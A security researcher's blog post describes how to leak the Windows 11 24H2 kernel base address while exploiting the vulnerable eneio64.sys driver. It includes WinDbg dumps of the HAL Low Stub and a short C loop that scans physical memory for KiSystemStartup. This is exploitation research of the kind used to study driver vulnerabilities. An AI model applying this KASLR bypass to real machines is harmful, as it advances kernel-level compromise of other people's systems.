


Well think of this post as a continuation of my previous blog post on exploiting the HVCI-compatible eneio64.sys kernel driver, which I achieved by simulating the translation of physical addresses into virtual addresses using paging structures. The truth is, I hesitated for a long time about doing this blog post, telling myself that It was too trivial and I'm probably missing something, but I'm doing it anyway, we never know. The aim of this very short blog post is to propose an alternative way of leaking the NTOS address on Windows 11 24H2 when exploiting a driver with R/W primitives on physical memory.
In the previous post, I leveraged the Low Stub, which is always present at the beginning of the physical memory layout of HVCI-enabled systems, to retrieve the value of CR3 in order to initiate the process of translating leaked virtual addresses into physical addresses, since I'm exploiting a driver that only provides access on physical memory, so as to make any exploitation technique possible on this driver as on a driver exposing R/W primitives on virtual memory. Since Windows 11 24H2, it is no longer possible to rely on EnumDeviceDrivers or NtQuerySystemInformation to leak, among other things, kernel module addresses from a medium integrity process, and SeDebugPrivilege is now required for this. This blog post by Yarden Shafir details these changes at the kernel level. There are tools like prefetch-tool, which which uses TLB vs no-TLB timing on modern CPUs for guessing the NTOS address, this one worked on my host machine but for an unknown reason, not on my Windows 11 24H2 VM with which I'm working on this blog post.
The thing is, the Low Stub doesn't just provide control registers, but a lot of other things, including NTOS kernel addresses of non-exported functions, so even if you recover these addresses, you don't really know what they correspond to (if you don't hardcode their offset, which is something we will avoid). Many of these addresses are specific to the HAL layer, this can be seen by unrolling the Low Stub to which HalpLowStub points:
0: kd> dqs poi(HalpLowStub) L0n1000
fffff7d7`8000b000 00000001`00064de9
fffff7d7`8000b008 1018003f`00000001
[...]
fffff7d7`8000eff0 00000000`00000000
fffff7d7`8000eff8 00000000`00000000
fffff7d7`8000f000 fffff801`5f863d10 nt!HalpRegisteredInterruptControllers
fffff7d7`8000f008 fffff801`5f863d10 nt!HalpRegisteredInterruptControllers
fffff7d7`8000f010 fffff7d7`8000f178
fffff7d7`8000f018 00000000`00000030
fffff7d7`8000f020 fffff801`5ef71710 nt!HalpApicInitializeLocalUnit
fffff7d7`8000f028 fffff801`5ef9f4e0 nt!HalpApicInitializeIoUnit
fffff7d7`8000f030 fffff801`5ef72820 nt!HalpApicSetPriority
fffff7d7`8000f038 fffff801`5efb0860 nt!HalpApicGetLocalUnitError
fffff7d7`8000f040 fffff801`5efb0470 nt!HalpApicClearLocalUnitError
fffff7d7`8000f048 00000000`00000000
fffff7d7`8000f050 00000000`00000000
fffff7d7`8000f058 00000000`00000000
fffff7d7`8000f060 fffff801`5f127cf0 nt!HalpApicWriteEndOfInterrupt
fffff7d7`8000f068 fffff801`5f013ae0 nt!HalpApicX2EndOfInterrupt
fffff7d7`8000f070 fffff801`5ef9de00 nt!HalpApicSetLineState
fffff7d7`8000f078 fffff801`5ef1ea90 nt!HalpApicRequestInterrupt
fffff7d7`8000f080 fffff801`5efaa050 nt!HalpApicStartProcessor
fffff7d7`8000f088 fffff801`5efa7e20 nt!HalpApicGenerateMessage
fffff7d7`8000f090 fffff801`5efaca70 nt!HalpApicConvertId
fffff7d7`8000f098 fffff801`5f132b80 nt!HalpApicSaveLocalInterrupts
fffff7d7`8000f0a0 fffff801`5f132aa0 nt!HalpApicReplayLocalInterrupts
fffff7d7`8000f0a8 fffff801`5f127b50 nt!HalpApicDeinitializeLocalUnit
fffff7d7`8000f0b0 00000000`00000000
fffff7d7`8000f0b8 fffff801`5efc8f60 nt!HalpApicQueryAndGetSource
fffff7d7`8000f0c0 00000000`00000000
fffff7d7`8000f0c8 00000000`00000000
fffff7d7`8000f0d0 00000000`00000000
[...]The low stub is always located between the physical addresses 0x10000 and 0x20000 (to be broad). Here, it is located at physical address
0x11000:
0: kd> ? poi(HalpLowStub)
Evaluate expression: -8970039152640 = fffff7d7`8000b000
0: kd> !vtop 7d5000 fffff7d78000b000
Amd64VtoP: Virt fffff7d78000b000, pagedir 00000000007d5000
Amd64VtoP: PML4E 00000000007d5f78
Amd64VtoP: PDPE 00000000f7f02af0
Amd64VtoP: PDE 00000000f7f05000
Amd64VtoP: PTE 00000000f7f06058
Amd64VtoP: Mapped phys 0000000000011000
Virtual address fffff7d78000b000 translates to physical address 11000.
One address in particular caught my attention, that of KiSystemStartup, which is relatively early in the Low Stub:
2: kd> dqs poi(HalpLowStub) L0n10000
[...]
fffff7ef`4000b278 fffff806`1c087010 nt!KiSystemStartup
[...]
KiSystemStartup is no more than the entry point of the kernel! whose RVA can easily be retrieved by parsing the PE image of ntoskrnl.exe:
0: kd> lmmnt
Browse full module list
start end module name
fffff801`5ec00000 fffff801`5fc47000 nt (pdb symbols)
0: kd> dx ((nt!_IMAGE_NT_HEADERS64*)(0xfffff801`5ec00000+0n280))->OptionalHeader.AddressOfEntryPoint
[...] : 0xa87010 [Type: unsigned long]
The Windows kernel aligns to 2MB boundaries since it leverages large-page memory mappings:
0: kd> !pte fffff801`5ec00000
VA fffff8015ec00000
PXE at FFFF8542A150AF80 PPE at FFFF8542A15F0028 PDE at FFFF8542BE0057B0 PTE at FFFF857C00AF6000
contains 000000001000B063 contains 000000001000C063 contains 8A000001004001A1 contains 0000000000000000
pfn 1000b ---DA--KWEV pfn 1000c ---DA--KWEV pfn 100400 -GL-A--KR-V LARGE PAGE pfn 100400
0: kd> ? fffff801`5ec00000 % 200000
Evaluate expression: 0 = 00000000`00000000
In this way, we can scan the Low Stub for an address suffixed with the last 3 bytes of the entry point's RVA. If we find this address, we simply subtract the value of the entry point's RVA, which gives us the kernel's address :)
for (physical_offset = 0x10000; physical_offset < 0x20000; physical_offset += sizeof(UINT64)) {
UINT64 qword_value = ReadMemoryU64(memory_data, physical_offset);
if ((qword_value & 0xFFFFF) == (ntosEntryPoint & 0xFFFFF)) {
printf("[*] Found KiSystemStartup -> %p\n", qword_value);
UINT64 supposedNtosBase = (qword_value - ntosEntryPoint);
printf("[*] In a silly way, we can assume NTOS base address is %p\n", supposedNtosBase);
}
}
The full "exploit" is available here. Below is the result on Windows 11 24H2 (build 10.0.26100.3194):

You now have an idea of the alternative you can use if you need to exploit a kernel driver offering R/W primitives on physical memory (as here with eneio64.sys) on Windows 11 24H2, we now have the kernel address which can allow us to keep using the technique illustrated in the previous post, albeit with a few changes as we have to start from NTOS address to retrieve the various kernel objects addresses that are used, but it's still feasible. Let me know if you have any constructive commments! (Discord: yazidou)
Will life get easier with vulnerable drivers that operate on physical memory? Only time will tell. :p